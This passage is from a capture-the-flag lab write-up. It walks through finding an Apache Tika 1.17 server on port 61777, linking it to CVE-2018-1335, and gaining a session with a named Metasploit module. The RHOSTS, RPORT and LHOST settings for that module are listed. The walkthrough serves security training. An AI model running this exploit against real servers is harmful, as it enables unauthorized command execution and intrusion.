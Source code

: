 Also it's on a Windows Server, good to know for later.

![Wappalyzer](https://i.imgur.com/1iT4X3m.png)

Nothing too interesting until scrolling down and seeing a form.

![CyberLens Website Form](https://i.imgur.com/9ZHgSAR.png)

And with a quick view-source, we've got an interesting end-point.

![Web Form Showing Port 61777](https://i.imgur.com/0DFddsE.png)

Since the web form is fetching via 'http', perhaps we can see via the browser?

![Apache Tika](https://i.imgur.com/hqOId3k.png)

Ah, an Apache service with a version number. Interesting.

So, from searching **Apache Tika** it's a **toolkit (that) detects and extracts metadata** from file types like PDFs etc.

This feeds into the CyberLens description from earlier.

And from searching **Apache Tika 1.17 Exploit** we've got our *in*.

![Apache Tika 1.17 Exploit](https://i.imgur.com/1fWQ7ot.png)

So it's originally [CVE-2018-1335](https://nvd.nist.gov/vuln/detail/CVE-2018-1335) where a vulnerability "could be used to inject commands into the command line of the server running tika-server."

We can also use `searchsploit tika 1.17` if that's your cup of tea.

Looks like we have a Metasploit exploit ready to go, lovely.

## Initial Access

Okay, let's fire up this bad boy and see what we've got.

Use `msfconsole -q` and then `search tika` to find our exploit.

It's `exploit/windows/http/apache_tika_jp2_jscript` or type `use 0` when it's the first search item.

Set the following options with `set $option $value`:
- `set RHOSTS $MACHINE_IP`
- `set RPORT 61777`
- `set LHOST $YOUR_IP`

And then use `run` or `go` when you're ready.

The user flag hint **Sometimes exploits take a few tries before they are successful ;)** comes in here.

You may need to try this once or twice to get it working. Double check your options are correct.

When the exploit works and a sessions created, you'll see:

![Metasploit Tika Exploit Session](https://i.imgur.com/fybpy7B.png)
